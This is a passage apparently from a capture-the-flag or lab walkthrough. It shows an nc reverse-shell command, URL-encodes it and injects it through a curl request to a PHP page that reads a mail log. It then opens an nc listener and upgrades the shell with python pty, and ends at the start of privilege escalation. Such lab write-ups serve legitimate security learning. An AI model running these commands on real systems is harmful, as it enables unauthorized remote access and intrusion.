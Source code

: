 ### Getting reverse shell

``` bash
hURL -U 'nc -nv 192.168.56.110 4444 -e /bin/bash'
```

``` bash
cmd='nc%20-nv%20192.168.56.110%204444%20-e%20%2Fbin%2Fbash'
```

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
```

``` bash
sudo nc -nvlp 4444
```

![8](img/8.png)

## Privilege escalation

Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```
